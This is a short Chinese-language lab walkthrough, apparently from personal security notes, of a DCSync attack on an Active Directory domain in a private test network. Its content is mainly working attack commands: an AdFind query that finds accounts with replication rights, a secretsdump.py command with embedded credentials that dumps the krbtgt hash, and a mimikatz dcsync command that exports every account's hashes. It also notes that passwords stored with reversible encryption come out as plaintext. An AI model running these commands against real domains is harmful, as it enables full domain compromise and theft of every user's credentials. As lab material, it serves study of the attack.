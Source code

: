 # Dcsync 攻击

- 域控机器账户：WIN-0V0GAORDC17
- 域控 ip：192.168.72.163
- 攻击者机器 ip：192.168.72.162

```
# 查询域内有 Dcsync 权限的用户。
AdFind.exe -s subtree -b "DC=HACKER,DC=com" -sdna nTSecurityDescriptor -sddl+++ -sddlfilter ;;;"Replicating Directory Changes";; -recmute
```

![image-20250116201707050](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250116201707050.png)

```
# 利用 Dcsync 机制获取域内敏感数据。
python secretsdump.py hacker/deandean:p-0p-0p-0@192.168.72.163 -just-dc-user hacker/krbtgt
```

![image-20250116201558869](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250116201558869.png)

如果用户开启 “使用可逆加密存储”，那么 secretsdump.py 可自动解密密码哈希为明文密码，如下图：

![image-20250116204830766](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250116204830766.png)

![image-20250116204800119](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250116204800119.png)

mimikatz 攻击

```
lsadump::dcsync /all /csv
```

![image-20250116202122832](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250116202122832.png)
